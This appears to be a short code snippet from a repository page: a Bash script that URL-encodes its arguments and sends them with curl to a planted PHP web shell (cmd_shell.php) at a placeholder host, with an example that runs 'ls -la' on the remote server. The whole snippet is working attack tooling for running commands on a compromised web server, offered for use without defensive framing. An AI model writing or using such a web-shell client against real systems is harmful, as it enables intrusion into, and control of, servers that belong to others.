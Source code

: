 # Bash

```bash
#!/bin/bash
URL="http://x.x.x.x:yyyy/cmd_shell.php"
CMD=`echo ${*} | sed s'/ /%20/g'`
CMD=`echo ${CMD} | sed s'/&/%26/g'`
CMD=`echo ${CMD} | sed s'/>/%3e/g'`
echo ${URL}?cmd=${CMD}
curl -s ${URL}?cmd=${CMD}
echo ""
```

To execute it.

```
$ ./execute_webshell.sh ls -la
```